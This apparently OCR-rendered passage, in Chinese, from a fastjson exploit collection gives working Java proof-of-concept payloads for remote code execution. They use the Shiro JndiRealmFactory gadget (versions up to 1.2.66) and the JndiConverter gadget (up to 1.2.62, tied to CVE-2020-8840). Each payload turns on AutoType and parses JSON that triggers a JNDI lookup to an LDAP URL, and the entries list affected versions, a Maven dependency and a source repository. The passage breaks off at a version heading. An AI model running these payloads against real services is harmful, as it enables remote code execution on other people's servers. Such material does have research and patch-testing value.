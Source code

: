 ## Shiro RCE（<= 1.2.66）（高频率）

fastjson <= 1.2.66 RCE，需要开启 AutoType

shiro-core gadget

### Payload

```java
public static void main(String[] args) {
    ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
    String payload = "{\"@type\":\"org.apache.shiro.realm.jndi.JndiRealmFactory\", \"jndiNames\":[\"ldap://localhost:43658/Calc\"], \"Realms\":[\"\"]}";//ldap方式
    JSON.parse(payload);
}
```

### 影响版本

- fastjson <= 1.2.66

### 依赖

```
<dependency>
    <groupId>org.apache.shiro</groupId>
    <artifactId>shiro-core</artifactId>
</dependency>
```

### 来源

- https://github.com/threedr3am/learnjavabug/blob/master/fastjson/src/main/java/com/threedr3am/bug/fastjson/rce/ShiroPoc.java

## JndiConverter RCE（<= 1.2.62）

fastjson <= 1.2.62 RCE，需要开启AutoType (report by threedr3am to ASRC)

Jackson-databind 的 CVE-2020-8840 gadget 与 Fastjson 通用

### Payload

```java
public static void main(String[] args) {
    ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
    String payload = "{\"@type\":\"org.apache.xbean.propertyeditor.JndiConverter\",\"asText\":\"ldap://localhost:43658/Calc\"}";//ldap方式
    JSON.parse(payload);
}
```

### 影响版本
